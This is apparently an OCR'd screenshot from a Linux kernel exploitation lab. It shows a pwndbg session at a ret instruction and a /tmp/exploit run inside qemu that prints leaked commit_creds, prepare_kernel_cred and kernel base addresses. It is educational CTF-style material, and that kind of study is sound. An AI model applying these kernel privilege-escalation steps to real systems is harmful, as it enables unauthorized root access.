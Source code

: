 ```bash
 RDI  0x0
 RSI  0x0
 R8   0xffff8f250641bf20 —▸ 0xffffb0f380647960 ◂— 1
 R9   0x0
 R10  0x0
 R11  0x32e
 R12  0xffffffffa2810480 ◂— 0x80000000
 R13  0xffffffffa2810480 ◂— 0x80000000
 R14  0x0
 R15  0x0
 RBP  0x0
 RSP  0xffffffffa2803eb8 —▸ 0xffffffffa16b65a0 ◂— 0xff894cf6894c9feb
 RIP  0xffffffffa1e6e7d2 ◂— ret     /* 0x1f0f2e66001f0fc3 */
───────────────────────────────────────[ DISASM ]────────────────────────────────────────
 ► 0xffffffffa1e6e7d2    ret    <0xffffffffa16b65a0>
    ↓
   0xffffffffa16b65a0    jmp    0xffffffffa16b6541
    ↓
   0xffffffffa16b6541    or     byte ptr ds:[r12 + 2], 0x20
   0xffffffffa16b6548    pushfq
   0xffffffffa16b6549    pop    rax
   0xffffffffa16b654a    test   ah, 2
   0xffffffffa16b654d    je     0xffffffffa16b65e5

   0xffffffffa16b6553    call   0xffffffffa16d4720

   0xffffffffa16b6558    call   0xffffffffa16b6430

   0xffffffffa16b655d    mov    rax, qword ptr [rbx]
   0xffffffffa16b6560    test   al, 8
────────────────────────────────────────[ STACK ]────────────────────────────────────────
00:0000│ rsp  0xffffffffa2803eb8 —▸ 0xffffffffa16b65a0 ◂— 0xff894cf6894c9feb
01:0008│      0xffffffffa2803ec0 ◂— 0xc2
02:0010│      0xffffffffa2803ec8 —▸ 0xffffffffa2cc4900 ◂— 0xcccccccccccccccc
03:0018│      0xffffffffa2803ed0 —▸ 0xffff8f2506688900 ◂— jb     0xffff8f2506688971 /* 0x65642f3d746f6f72; 'root=/dev/ram' */
04:0020│      0xffffffffa2803ed8 —▸ 0xffffffffa2ccc2c0 ◂— 0xcccccccccccccccc
05:0028│      0xffffffffa2803ee0 ◂— 0x0
... ↓
07:0038│      0xffffffffa2803ef0 —▸ 0xffffffffa16b673a ◂— jmp    0xffffffffa16b6735 /* 0x564190909090f9eb */
pwndbg> c
Continuing.
......
......


// qemu 内
/ # /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffa169c8e0
vmlinux_base addr: 0xffffffffa1600000
prepare_kernel_cred addr: 0xffffffffa169cce0
[*]set off to 64
[*]read to buf.
......
......

// qemu 外
pwndbg> c
Continuing.
ERROR: Could not find ELF base!
ERROR: Could not find ELF base!
```